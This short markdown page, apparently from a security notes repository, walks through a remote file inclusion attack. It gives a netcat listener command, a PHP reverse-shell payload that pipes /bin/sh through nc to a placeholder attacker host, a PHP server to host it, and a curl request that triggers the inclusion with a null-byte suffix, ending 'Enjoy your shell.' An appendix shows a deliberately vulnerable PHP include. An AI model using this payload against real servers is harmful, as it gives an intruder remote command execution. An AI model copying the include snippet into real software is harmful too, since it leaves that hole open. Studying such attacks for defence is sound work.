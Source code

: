 # RFI

Documentation on remote file inclusion attack.

Start netcat handler.

```sh
nc -lnvp 4444
```

Create file evil.txt with this reverse_tcp.

```sh
<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxxxxx 4444 >/tmp/f");?> 
```

Start php server.

```sh
php -S 0.0.0.0:8000
```

Trigger RFI

```sh
curl -s https://server-ip/section.php?page=http://your-ip:8000/evil.txt%00
```

Enjoy your shell.

## Appendix

This is a snippet on how vulnerable could look like. 

```php
<?php
   $page = $_GET["page"];
   include($page . '.php');
?>
```

